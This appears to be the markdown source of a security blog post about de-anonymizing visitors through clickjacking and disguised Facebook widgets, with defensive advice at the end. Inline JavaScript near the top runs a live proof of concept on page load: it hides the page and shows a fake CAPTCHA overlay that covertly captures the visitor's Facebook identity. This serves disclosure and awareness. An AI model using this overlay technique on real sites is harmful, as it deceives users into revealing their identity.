 ```yaml
---
layout: post
title: De-anonymization via Clickjacking in 2019
---
```


This blog post is about my journey to understand the current practice of de-anonymization via the clickjacking technique whereby a malicious website is able to uncover the identity of a visitor, including his full name and possibly other personal information. I don’t present any new information here that isn’t already publicly available, but I do look at how easy it is to compromise a visitor’s privacy and reveal his identity, even when he adheres to security best practices and uses an up-to-date browser and operating system.

{% raw %}<script>
function addStyle(id, styles) {
	/* Create style element */
	var css = document.createElement('style');
	css.id = id;
	css.type = 'text/css';

	if (css.styleSheet) {
		css.styleSheet.cssText = styles;
	} else {
		css.appendChild(document.createTextNode(styles));
	}

	/* Append style to the head element */
	document.getElementsByTagName("head")[0].appendChild(css);
}

function getQueryParam(name, url) {
    if (!url) url = location.href;
    name = name.replace(/[\[]/,"\\\[").replace(/[\]]/,"\\\]");
    var regexS = "[\\?&]"+name+"(?:=([^&#]*))?";
    var regex = new RegExp( regexS );
    var results = regex.exec( url );
    return results == null ? null : results[1];
}

function isMobileOrTablet() {
	var check = false;
	(function(a){if(/(android|bb\d+|meego).+mobile|avantgo|bada\/|blackberry|blazer|compal|elaine|fennec|hiptop|iemobile|ip(hone|od)|iris|kindle|lge |maemo|midp|mmp|mobile.+firefox|netfront|opera m(ob|in)i|palm( os)?|phone|p(ixi|re)\/|plucker|pocket|psp|series(4|6)0|symbian|treo|up\.(browser|link)|vodafone|wap|windows ce|xda|xiino|android|ipad|playbook|silk/i.test(a)||/1207|6310|6590|3gso|4thp|50[1-6]i|770s|802s|a wa|abac|ac(er|oo|s\-)|ai(ko|rn)|al(av|ca|co)|amoi|an(ex|ny|yw)|aptu|ar(ch|go)|as(te|us)|attw|au(di|\-m|r |s )|avan|be(ck|ll|nq)|bi(lb|rd)|bl(ac|az)|br(e|v)w|bumb|bw\-(n|u)|c55\/|capi|ccwa|cdm\-|cell|chtm|cldc|cmd\-|co(mp|nd)|craw|da(it|ll|ng)|dbte|dc\-s|devi|dica|dmob|do(c|p)o|ds(12|\-d)|el(49|ai)|em(l2|ul)|er(ic|k0)|esl8|ez([4-7]0|os|wa|ze)|fetc|fly(\-|_)|g1 u|g560|gene|gf\-5|g\-mo|go(\.w|od)|gr(ad|un)|haie|hcit|hd\-(m|p|t)|hei\-|hi(pt|ta)|hp( i|ip)|hs\-c|ht(c(\-| |_|a|g|p|s|t)|tp)|hu(aw|tc)|i\-(20|go|ma)|i230|iac( |\-|\/)|ibro|idea|ig01|ikom|im1k|inno|ipaq|iris|ja(t|v)a|jbro|jemu|jigs|kddi|keji|kgt( |\/)|klon|kpt |kwc\-|kyo(c|k)|le(no|xi)|lg( g|\/(k|l|u)|50|54|\-[a-w])|libw|lynx|m1\-w|m3ga|m50\/|ma(te|ui|xo)|mc(01|21|ca)|m\-cr|me(rc|ri)|mi(o8|oa|ts)|mmef|mo(01|02|bi|de|do|t(\-| |o|v)|zz)|mt(50|p1|v )|mwbp|mywa|n10[0-2]|n20[2-3]|n30(0|2)|n50(0|2|5)|n7(0(0|1)|10)|ne((c|m)\-|on|tf|wf|wg|wt)|nok(6|i)|nzph|o2im|op(ti|wv)|oran|owg1|p800|pan(a|d|t)|pdxg|pg(13|\-([1-8]|c))|phil|pire|pl(ay|uc)|pn\-2|po(ck|rt|se)|prox|psio|pt\-g|qa\-a|qc(07|12|21|32|60|\-[2-7]|i\-)|qtek|r380|r600|raks|rim9|ro(ve|zo)|s55\/|sa(ge|ma|mm|ms|ny|va)|sc(01|h\-|oo|p\-)|sdk\/|se(c(\-|0|1)|47|mc|nd|ri)|sgh\-|shar|sie(\-|m)|sk\-0|sl(45|id)|sm(al|ar|b3|it|t5)|so(ft|ny)|sp(01|h\-|v\-|v )|sy(01|mb)|t2(18|50)|t6(00|10|18)|ta(gt|lk)|tcl\-|tdg\-|tel(i|m)|tim\-|t\-mo|to(pl|sh)|ts(70|m\-|m3|m5)|tx\-9|up(\.b|g1|si)|utst|v400|v750|veri|vi(rg|te)|vk(40|5[0-3]|\-v)|vm40|voda|vulc|vx(52|53|60|61|70|80|81|83|85|98)|w3c(\-| )|webc|whit|wi(g |nc|nw)|wmlb|wonu|x700|yas\-|your|zeto|zte\-/i.test(a.substr(0,4))) check = true;})(navigator.userAgent||navigator.vendor||window.opera);
	return check;
}

function addCaptchaFrame(id, demo) {
	var iframe = document.createElement('iframe');
	iframe.id = id;
	iframe.src = '../files/De-anonymization-via-Clickjacking-in-2019/fake_captcha.html' + (demo ? '?demo' : '');
	iframe.style.position = 'absolute';
	iframe.style.left = '0';
	iframe.style.top = '0';
	iframe.style.width = '100%';
	iframe.style.height = '100%';
	iframe.style['z-index'] = '99';
	document.body.appendChild(iframe);
}

function removeElementById(id) {
	var node = document.getElementById(id);
	if (node) {
		node.parentNode.removeChild(node);
	}
}

function loadFacebookDemoData() {
	var facebookDemoData = null;
	try {
		facebookDemoData = JSON.parse(localStorage.getItem('visitor_fb_details') || 'null');
	} catch (e) {}
	
	window.facebookDemoData = facebookDemoData || {};
	return facebookDemoData !== null;
}

function onCaptchaFrameDone() {
	removeElementById('captchaFrame');
	removeElementById('hideAllDivs');
	
	loadFacebookDemoData();
	
	if (facebookDemoDataUpdateName) {
		facebookDemoDataUpdateName();
	}
	
	if (facebookDemoDataUpdateImage) {
		facebookDemoDataUpdateImage();
	}
	
	if (getQueryParam('demo') !== null) {
		if (window.facebookDemoData.name) {
			alert('Hi ' + window.facebookDemoData.name + ' :)');
		}
	}
}

function onFacebookPullScriptLoad() {
	// Probably logged into Facebook, show the demo.
	removeElementById('hideAllIframes');
}

function onFacebookPullScriptError() {
	// Probably not logged into Facebook or blocking third party cookies. Give up on the demo.
	removeElementById('captchaFrame');
	removeElementById('hideAllDivs');
	removeElementById('hideAllIframes');
}

var sawCaptcha = false;
try {
	if (localStorage.getItem('saw_fake_captcha')) {
		sawCaptcha = true;
	}
} catch (e) {}

if (getQueryParam('demo') !== null) {
	addStyle('hideAllDivs', 'div { display: none; }');
	addCaptchaFrame('captchaFrame', true);
} else if (!sawCaptcha && !isMobileOrTablet()) {
	addStyle('hideAllDivs', 'div { display: none; }');
	addStyle('hideAllIframes', 'iframe { display: none; }');
	addCaptchaFrame('captchaFrame', false);
	document.write('<script type="text/javascript"' +
		' src="https://0-edge-chat.facebook.com/pull?clientid="' +
		' onload="onFacebookPullScriptLoad()"' +
		' onerror="onFacebookPullScriptError()"' +
		' async="async"></scr' + 'ipt>');
}

loadFacebookDemoData();
</script>{% endraw %}

# Initial Motivation - Google YOLO

My journey began when I read the excellent [Google YOLO blog post](https://blog.innerht.ml/google-yolo/) by [@filedescriptor](https://twitter.com/filedescriptor) about a clickjacking vulnerability of the Google YOLO (You Only Login Once) service, a web widget that provides an embeddable one-click login on websites. I highly recommend that you read the blog post, which includes an interactive demonstration of the clickjacking technique.

The blog post discusses how the widget can be used as a privacy threat, explaining that it’s possible to build a website with the Google YOLO widget and disguise the widget to make it look like a harmless button. When the seemingly harmless button is clicked, the victim unknowingly logs into the website with his Google account, and thus passes his identity, including his full name and email address, to the owner of the website.

However, since most websites you use probably know your identity anyway, that’s not the most serious issue, but it can still backfire. Think, for example, about completing a sensitive survey which claims to be anonymous. Since you never logged in to the survey website you might think that it has no way of connecting your answers to your identity, but this might not be the case.

By the time I read the Google YOLO blog post, the issue had already been [fixed by Google](https://twitter.com/sirdarckcat/status/994867137704587264) by limiting the YOLO service to a list of partners.

The blog post also demonstrates clickjacking with the Facebook Like widget, but when I tried it, it asked for a confirmation, like this:

![Facebook Like widget confirmation]({{ site.baseurl }}/images/De-anonymization-via-Clickjacking-in-2019/Facebook-Like-widget-confirmation.gif)

The confirmation request makes the clickjacking attack infeasible - even if the victim clicks on the Like button two times unknowingly, he will still have to confirm his action in the newly opened popup window. The popup, being an entirely new window, cannot be manipulated by the attacker’s website, and is not prone to clickjacking. The downside is that the solution hurts usability, requiring additional actions every time, even for legit Like button usage.

So it looked to me that the issue had been fixed by the major companies, and I forgot about it for a while, until I had an idea…

# The Facebook Comments Widget: “Typejacking”

One day while I was browsing the web, I stumbled upon a website which used the [Facebook Comments plugin](https://developers.facebook.com/docs/plugins/comments) to allow visitors to comment on its website articles at the bottom of the page. At that moment, I remembered what I had read on the Google YOLO blog post about clickjacking, and had the following thought: clickjacking can’t be applied on major services anymore, but what about “typejacking”? What if I take the comments plugin and embed it on my website, disguising it as a form with a different purpose? Then, when the unsuspecting victim comes along and inserts text, any text, and submits it as a Facebook comment on my page, I can learn his identity by checking which Facebook account just posted the comment.

So I started working on a proof of concept web page that demonstrates the technique. While working on it and trying various approaches, I accidentally found out that the Like widget, the one that I thought required a confirmation, works without a confirmation on my website! Reading about the Facebook Like widget on the Internet, I found out that Facebook, unlike Google, uses a blacklist to apply protection from clickjacking.

While the method Facebook chose to protect its users from clickjacking can guard against a mass harvesting of likes - they can notice that a large amount of likes came from a single website - and even undo the likes, it doesn’t protect users from the de-anonymization threat. An attacker can easily create a new website and use clickjacking with the Like widget, and then send the page to a limited amount of victims and reveal their identities by tracking the likes on Facebook.

To my surprise, the likejacking technique, which is the term applied to the strategy of using clickjacking to gain likes, has been around [at least since 2010](https://www.computerworld.com/article/2518461/facebook--likejacking--attacks-continue-with-flesh-appeal.html). And today, 9 years later, it’s still an issue. Also, when talking about likejacking, people rarely mention the de-anonymization issue. While it was mentioned [at least as early](https://staging.whitehatsec.com/blog/i-know-your-name-and-probably-a-whole-lot-more-deanonymization-via-likejacking-followjacking-etc/) as [2012](https://www.usenix.org/sites/default/files/conference/protected-files/huang_usenixsecurity12_slides.pdf), I think that there isn’t enough awareness about it, especially nowadays when more and more people have begun to understand the importance of online privacy.

<img id="facebookDemoDataThumbSrc" src="data:image/gif;base64,R0lGODlhAQABAAD/ACwAAAAAAQABAAACADs=" style="display:none;width:48px;height:48px;float:left;margin-right:8px;">

{% raw %}<script>
function facebookDemoDataUpdateImage() {
	var facebookDemoDataThumbSrc = document.getElementById('facebookDemoDataThumbSrc');
	if (window.facebookDemoData.thumbSrc) {
		facebookDemoDataThumbSrc.src = window.facebookDemoData.thumbSrc;
		facebookDemoDataThumbSrc.style.display = null;
	} else {
		facebookDemoDataThumbSrc.style.display = 'none';
	}
}
facebookDemoDataUpdateImage();
</script>{% endraw %}

By the way, regarding that typejacking proof of concept - you might have seen a CAPTCHA that you had to enter to be able to see the article. You’ve probably figured out by now that it wasn’t a real CAPTCHA<span id="facebookDemoDataName"></span>{::nomarkdown}{% raw %}<script>
function facebookDemoDataUpdateName() {
	var facebookDemoDataName = document.getElementById('facebookDemoDataName');
	facebookDemoDataName.textContent = window.facebookDemoData.name ? ', ' + window.facebookDemoData.name + ' :)' : '.';
}
facebookDemoDataUpdateName();
</script>{% endraw %}{:/} If you missed it, you can see a demonstration video [here]({{ site.baseurl }}/images/De-anonymization-via-Clickjacking-in-2019/Attack-demonstration.mp4). You can also play with the proof of concept page [here](./?demo), this time with a checkbox to reveal the disguised widget.

# Beyond Clickjacking and Typejacking

Thinking about the concept of clickjacking, I was wondering what else can be done by exploiting the ability to embed and manipulate a third party widget on a malicious website. The clickjacking and typejacking techniques trick the user into interacting with the widget. What if we trick the user into getting information from the widget instead?

Apparently somebody thought about that, too. A quick search led me to the paper [Tell Me About Yourself: The Malicious CAPTCHA Attack](https://www.researchgate.net/publication/288280540_Tell_Me_About_Yourself_The_Malicious_CAPTCHA_Attack) which analyzes this technique. Here’s an example from the paper that demonstrates how an attacker can trick the victim into unknowingly revealing his own name by masking the widget as a sneaky CAPTCHA:

![Facebook Comments widget masked as CAPTCHA]({{ site.baseurl }}/images/De-anonymization-via-Clickjacking-in-2019/Facebook-Comments-widget-masked-as-CAPTCHA.png)

# Clickjacking Prevention for Website Owners

As of today, there’s still no reliable way to prevent clickjacking.

In 2009, the **X-Frame-Options** HTTP header was introduced, which offers a partial protection against clickjacking. The header allows a website owner to specify which pages shouldn’t be framed. A browser which is aware of the header will refuse to load these pages in a frame. While this prevents clickjacking in several cases, it doesn’t help with widgets which are meant to be framed, such as the Like widget or the comments widget.

Looking at the **X-Frame-Options** header, I thought, why not make a similar prevention measure which still allows framing? Think about the Like widget, for example: Is there any reason for a web page to draw over the widget? To change its size and opacity? To do any other manipulations such as CSS filters? The only reason I can think of is clickjacking. So why not introduce a new **X-Frame-Options** option such as **X-Frame-Options: Isolate**, which will allow framing, but will make sure that the frame cannot be tampered with and that the parent website cannot draw over it? As with my previous ideas, [I wasn’t the first one to come up with this idea](http://homakov.blogspot.com/2014/09/bypassing-clearclick-and-x-frame.html).

Until browsers implement such a protection, website owners have only one option: to require extra user interaction, possibly with an isolated popup window. We’ve seen that Facebook does this with the Like widget, but only for suspicious websites hosting the widget. Apparently Facebook values users’ usability more than their privacy.

# Clickjacking Mitigation for Users

Having tried several solutions, I came to the conclusion that blocking third party cookies is the best mitigation for clickjacking. It doesn’t prevent clickjacking per se, but since the embedded frame won’t be receiving the visitor’s cookies, the attacker won’t be able to do much harm.

What’s great about blocking third party cookies is that most browsers have an option to do it out of the box. No need to install third party extensions, or look for different solutions for different browsers or devices.

The downside is that legit widgets, such as the Like widget or the comment widget, will stop working. I don’t remember missing any of those, but of course your mileage may vary.

Another advantage of blocking third party cookies is that it can protect from side channel attacks, which don’t require user interaction. For example, [this technique](https://www.evonide.com/side-channel-attacking-browsers-through-css3-features/) demonstrates usage of a CSS3 feature to de-anonymize Facebook users with no additional user interaction. Another example of an old, but interesting vulnerability that would be prevented by blocking third party cookies is [generic cross-browser cross-domain theft](https://scarybeastsecurity.blogspot.com/2009/12/generic-cross-browser-cross-domain.html) ([relevant Chromium issue](https://bugs.chromium.org/p/chromium/issues/detail?id=9877)).

# Summary

If nothing else, there’s one thing I want you to take away from this blog post: consider blocking third party cookies in order to protect your identity online. [Here’s one](https://www.digitalcitizen.life/how-disable-third-party-cookies-all-major-browsers) of the many guides that show how to block third party cookies in various browsers.

I hope that this blog post will help raise awareness about the ongoing issue of clickjacking which has remained unsolved since 2010. Perhaps browser vendors will consider implementing a prevention measure to limit frame manipulation.
